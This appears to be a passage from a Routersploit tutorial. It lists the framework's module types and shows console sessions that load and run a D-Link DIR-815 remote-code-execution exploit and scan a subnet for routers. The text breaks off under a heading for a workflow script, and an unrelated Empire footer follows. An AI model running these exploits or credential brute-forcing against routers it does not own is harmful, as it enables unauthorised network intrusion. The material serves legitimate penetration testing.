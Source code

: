 ### Module Categories

Routersploit organizes its modules into several categories:

1. **Exploits**: Modules that exploit specific vulnerabilities in device firmware
2. **Scanners**: Scan for vulnerable devices and identify potential weaknesses
3. **Creds**: Brute-force login credentials for various device types
4. **Generic**: General-purpose modules applicable to multiple device types

### Using Exploits

To use an exploit module:

```
rsf > search dlink

rsf > use exploits/routers/dlink/dir815_cgi_rce

rsf (D-Link DIR-815 CGI_RCE) > show options

Target options:
    Name        Current settings    Description
    ----        ----------------    -----------
    target                          Target address (e.g. http://192.168.1.1)
    port        80                  Target port

rsf (D-Link DIR-815 CGI_RCE) > set target http://192.168.1.1
[+] target => http://192.168.1.1

rsf (D-Link DIR-815 CGI_RCE) > run
```

### Router Scanning and Identification

Before exploitation, it's crucial to identify the router model and firmware version:

```
rsf > use scanners/routers/router_scanner

rsf (Router Scanner) > show options

Target options:
    Name          Current settings    Description
    ----          ----------------    -----------
    target                            Target IP address or addresses range
    port          80                  Target port

rsf (Router Scanner) > set target 192.168.1.0/24
[+] target => 192.168.1.0/24

rsf (Router Scanner) > run
```

### Creating a Router Exploitation Workflow Script


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire